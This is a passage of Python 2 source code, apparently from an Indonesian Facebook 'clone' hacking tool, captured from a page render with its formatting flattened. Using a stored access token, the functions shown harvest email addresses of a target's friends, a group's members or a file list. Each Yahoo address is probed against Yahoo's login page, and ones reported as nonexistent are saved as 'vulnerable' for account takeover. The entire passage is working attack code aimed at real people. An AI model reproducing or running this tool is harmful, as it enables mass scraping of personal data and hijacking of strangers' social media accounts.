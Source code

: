 \033[1;97m....'	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))	print"\033[1;96m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/MailVuln.txt"	save.close()	raw_input("\n\033[1;96m[\033[1;97mEnter Back\033[1;96m]")	menu() def clone_dari_teman():	global toket	os.system('clear')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;96m[!] \x1b[1;91mToken invalid"		os.system('rm -rf login.txt')		time.sleep(1)		login()	try:		os.mkdir('out')	except OSError:		pass	os.system('clear')	print logo	mpsh = []	jml = 0	print 42*"\033[1;96m="	idt = raw_input("\033[1;96m[+] \033[1;37mEnter friend ID \033[1;91m: \033[1;32m")	try:		jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)		op = json.loads(jok.text)		print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mFB Name \033[1;91m :\033[1;32m "+op["name"]	except KeyError:		print"\033[1;96m[!] \x1b[1;91mTeman tidak ditemukan"		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")		menu()	jalan('\033[1;96m[✺] \033[1;36mTake email \033[1;97m...')	teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)	kimak = json.loads(teman.text)	save = open('out/TemanMailVuln.txt','w')	jalan('\033[1;32m[✺] \033[1;32mStart \033[1;97m...')	print('\x1b[1;96m[!] \x1b[1;91mStop CTRL+z')	print 43*"\033[1;97m="	for w in kimak['data']:		jml +=1		mpsh.append(jml)		id = w['id']		nama = w['name']		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)		z = json.loads(links.text)		try:			mail = z['email']			yahoo = re.compile(r'@.*')			otw = yahoo.search(mail).group()			if 'yahoo.com' in otw:				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")				br._factory.is_html = True				br.select_form(nr=0)				br["username"] = mail				klik = br.submit().read()				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')				try:					pek = jok.search(klik).group()				except:					continue				if '"messages.ERROR_INVALID_USERNAME">' in pek:					save.write("Nama: "+ nama +"ID :" + id +"Email: "+ mail + '\n')					print("\033[1;96m[\033[1;92mVULN✓\033[1;96m] \033[1;92m" +mail+" \033[1;96m=>\x1b[1;97m"+nama)					berhasil.append(mail)		except KeyError:			pass	print 42*"\033[1;96m="	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSuccessful \033[1;97m....'	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))	print"\033[1;96m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/TemanMailVuln.txt"	save.close()	raw_input("\n\033[1;96m[\033[1;97mEnter Back\033[1;96m]")	menu()	def clone_dari_member_group():	global toket	os.system('clear')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;96m[!] \x1b[1;91mToken invalid"		os.system('rm -rf login.txt')		time.sleep(1)		login()	try:		os.mkdir('out')	except OSError:		pass	os.system('clear')	print logo	mpsh = []	jml = 0	print 42*"\033[1;96m="	id=raw_input('\033[1;96m[+] \033[1;37mEnter group ID \033[1;91m:\033[1;92m ')	try:		r=requests.get('https://graph.facebook.com/group/?id='+id+'&access_token='+toket)		asw=json.loads(r.text)		print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;96mName group \033[1;91m:\033[1;92m "+asw['name']	except KeyError:		print"\033[1;96m[!] \x1b[1;91mGroup not found"		raw_input("\n\033[1;96m[\033[1;97mEnter Back\033[1;96m]")		menu()	jalan('\033[1;96m[✺] \033[1;93mTake email \033[1;97m...')	teman = requests.get('https://graph.facebook.com/'+id+'/members?fields=name,id&limit=999999999&access_token='+toket)	kimak = json.loads(teman.text)	save = open('out/GrupMailVuln.txt','w')	jalan('\033[1;92m[✺] \033[1;92mStart \033[1;97m...')	print('\x1b[1;96m[!] \x1b[1;91mStop CTRL+z')	print 42*"\033[1;97m="	for w in kimak['data']:		jml +=1		mpsh.append(jml)		id = w['id']		nama = w['name']		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)		z = json.loads(links.text)		try:			mail = z['email']			yahoo = re.compile(r'@.*')			otw = yahoo.search(mail).group()			if 'yahoo.com' in otw:				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")				br._factory.is_html = True				br.select_form(nr=0)				br["username"] = mail				klik = br.submit().read()				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')				try:					pek = jok.search(klik).group()				except:					continue				if '"messages.ERROR_INVALID_USERNAME">' in pek:					save.write("Nama: "+ nama +"ID :" + id +"Email: "+ mail + '\n')					print("\033[1;96m[\033[1;97mVULN✓\033[1;96m] \033[1;92m" +mail+" \033[1;96m=>\x1b[1;97m"+nama)					berhasil.append(mail)		except KeyError:			pass	print 42*"\033[1;96m="	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))	print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/GrupMailVuln.txt"	save.close()	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")	menu() def clone_dari_file():	global toket	os.system('clear')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;96m[!] \x1b[1;91mToken invalid"		os.system('rm -rf login.txt')		time.sleep(1)		login()	try:		os.mkdir('out')	except OSError:		pass	os.system('clear')	print logo	print 42*"\033[1;96m="	files = raw_input("\033[1;96m[+] \033[1;93mEnter the file name \033[1;91m: \033[1;97m")	try:		total = open(files,"r")		mail = total.readlines()	except IOError:		print"\033[1;96m[!] \x1b[1;91mFile not found"		raw_input("\n\033[1;96m[\033[1;97mEnter Back\033[1;96m]")		menu()	mpsh = []	jml = 0	jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')	print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')	save = open('out/FileMailVuln.txt','w')	print 42*"\033[1;96m="	mail = open(files,"r").readlines()	for pw in mail:		mail = pw.replace("\n","")		jml +=1		mpsh.append(jml)		yahoo = re.compile(r'@.*')		otw = yahoo.search(mail).group()		if